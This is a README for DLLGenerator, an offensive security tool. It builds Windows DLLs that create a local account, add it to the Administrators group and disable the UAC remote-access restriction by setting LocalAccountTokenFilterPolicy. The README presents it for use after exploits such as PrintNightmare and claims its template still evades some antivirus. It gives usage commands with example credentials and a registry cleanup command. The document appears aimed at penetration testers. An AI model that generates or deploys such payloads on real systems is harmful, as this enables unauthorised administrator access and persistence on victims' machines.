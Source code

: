 # DLLGenerator

## What ? 

Dllgenerator is a quick tool to generate DLL, it is designed to be quickly effective. 

## Why ? 

Sometimes you can only execute one DLL on a remote machine, and you have no connect back possible because of AV (like in the printnightmare exploit).

To bypass this you can : 
 - Create a local account
 - Add your local account to Administrators ( or Administrateurs 🇫🇷)
 - Disable UAC control 

Seems easy no ? 
In fact it is ! But it's boring to keep one file somewhere and don't remember how it works.
And one day you remove one line (uac for example) and you forgot it ..

## How ? 

Dllgenerator is based on a template file that (on july 2022) still bypass some AV. 
It takes your input and generate a sexy DLLFile with it. 
DLL is not encoded or whatever, but you may consider put it in a wrapper. 

## Dependency 

A cross compilator `mingw-w64-gcc` is used by default but you can customise the `--compilator` parameter.


## Man 

```
python generator.py 
usage: generator.py [-h] [--action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]] [--username USERNAME] [--password PASSWORD] [--group GROUP]
                    [--wrapper WRAPPER] [--compliator COMPLIATOR] [--output OUTPUT]

______ _ _                                   _             
|  _  | | |                                 | |            
| | | | | |   __ _  ___ _ __   ___ _ __ __ _| |_ ___  _ __ 
| | | | | |  / _` |/ _ | '_ \ / _ | '__/ _` | __/ _ \| '__|
| |/ /| | | | (_| |  __| | | |  __| | | (_| | || (_) | |   
|___/ |_|_|  \__, |\___|_| |_|\___|_|  \__,_|\__\___/|_|   
              __/ |                                        
             |___/                                         
        Version : 1.0
        Author : shoxxdj

options:
  -h, --help            show this help message and exit
  --action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]
                        Main action
  --username USERNAME, -u USERNAME
                        Your username
  --password PASSWORD, -p PASSWORD
                        Your password matching the rules
  --group GROUP, -g GROUP
                        The group, tips for FR it's Administrateur
  --wrapper WRAPPER, -w WRAPPER
                        A command wrapper
  --compliator COMPLIATOR, -c COMPLIATOR
                        A C compilator : 'i686-w64-mingw32-gcc -lnetapi32' is an option
  --output OUTPUT, -o OUTPUT
                        path and name of your dll

```

### Create your first DLL 

```
python generator.py --action create_user add_to_group unset_uac
```
This will : 
- Create a local account : hoppy / H0pBreWedW1thl0v3 
- Add the account hoppy to group Administrators
- Set the regitry key to disable the functionnality in UAC that prevent remote connection
- Output as hoppy.dll in local directory

### Create a custom DLL 
```
python generator.py --action create_user add_to_group -u malt -p Il0v3b33r5 -g BrewersGroup -o /tmp/beer.dll
```
This will :
- Create a local account malt / Il0v3b33r5
- Add the account malt to BrewersGroup
- Output to /tmp as beer.dll


### Docker
``` 
docker build -t dllgenerator .
mkdir output
docker run -it --rm -v $PWD:/dllgenerator dllgenerator:latest --action create_user add_to_group unset_uac --output ./output/test.dll
```

### WARNING

1. Don't forget to clean the target machine ! Delete the user and delete the registry key if created
2. Don't use a password with a length > 14 characters, it will prompt for an input and dll will fail to add user 

```
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
```
